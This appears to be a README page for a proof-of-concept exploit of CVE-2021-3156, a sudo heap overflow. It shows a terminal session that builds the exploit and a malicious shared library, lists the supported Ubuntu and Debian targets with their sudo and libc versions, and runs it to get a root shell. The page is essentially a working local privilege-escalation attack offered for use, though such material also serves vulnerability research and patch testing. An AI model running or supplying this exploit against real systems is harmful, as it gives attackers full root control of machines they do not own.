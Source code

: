 # CVE-2021-3156
xchg@ubuntu:~/Desktop/CVE-2021-3156$ make
rm -rf libnss_X
mkdir libnss_X
gcc -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
xchg@ubuntu:~/Desktop/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    1) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

xchg@ubuntu:~/Desktop/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: 'Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31'
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),1000(xchg)
# 
